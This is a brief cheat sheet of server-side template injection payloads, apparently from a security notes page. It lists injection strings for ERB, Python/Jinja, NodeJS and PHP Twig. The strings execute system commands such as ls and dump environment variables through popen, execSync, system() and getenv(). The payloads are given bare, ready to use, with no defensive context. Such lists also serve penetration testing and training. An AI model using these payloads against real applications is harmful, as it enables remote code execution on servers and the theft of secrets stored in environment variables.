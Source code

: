 # SSTI

- ERB template
    
    ```jsx
    <%= 7*7 %>
    <%= system("ls") %>
    ```
    

```python
Python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}

NodeJS - Render Template
${process.mainModule.require('child_process').execSync('env').toString()}

PHP - Twig
<pre>{{ system("env") }}</pre>
<pre>{{ getenv()|join('\n') }}</pre>
```